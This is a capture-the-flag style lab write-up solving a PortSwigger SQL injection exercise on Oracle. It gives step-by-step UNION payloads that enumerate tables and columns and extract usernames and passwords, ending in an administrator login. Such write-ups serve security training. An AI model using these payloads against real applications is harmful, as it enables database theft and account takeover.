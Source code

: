 # [Lab 6: SQL Injection Attack, Listing the Database Contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)


### Overview
This lab demonstrates a SQL injection attack that allows an attacker to list the contents of an Oracle database. The vulnerability exists in the product category filter, and a UNION attack is used to retrieve data from other tables, including usernames and passwords.

### Steps to Exploit

1. **Identify the Number of Columns:**
   - Use the following payload to determine the number of columns (using `dual` since it is Oracle):
     ```plaintext
     category=Gifts' UNION SELECT NULL,NULL FROM dual -- -
     ```
   - This confirms that the query returns two columns.
   ![Columns Identified](assets/6.1.png)

2. **List Tables:**
   - Retrieve the list of tables using:
     ```plaintext
     category=Gifts' UNION SELECT table_name,NULL FROM all_tables -- -
     ```
   - The response shows the available tables.
   ![Tables Listed](assets/6.2.png)

3. **List Columns in 'USERS_XZCXJV' Table:**
   - Retrieve the list of columns in the 'USERS_XZCXJV' table using:
     ```plaintext
     category=Gifts' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_XZCXJV' -- -
     ```
   - The response shows the columns in the 'USERS_XZCXJV' table.
   ![Columns Listed](assets/6.3.png)

4. **Retrieve Usernames and Passwords:**
   - Retrieve the usernames and passwords from the 'USERS_XZCXJV' table using:
     ```plaintext
     category=Gifts' UNION SELECT USERNAME_ZNUEXN,PASSWORD_QCIJDG FROM USERS_XZCXJV -- -
     ```
   - The response shows the usernames and passwords.
   ![Usernames and Passwords](assets/6.4.png)

5. **Login with Retrieved Credentials:**
   - Log in with the credentials for the 'administrator' user to solve the lab.
   ![Lab solved](assets/6.5.png)

### Conclusion
This lab provides a practical example of how SQL injection vulnerabilities can be exploited to list the contents of an Oracle database. It emphasizes the importance of implementing secure coding practices and using parameterized queries to prevent such attacks.
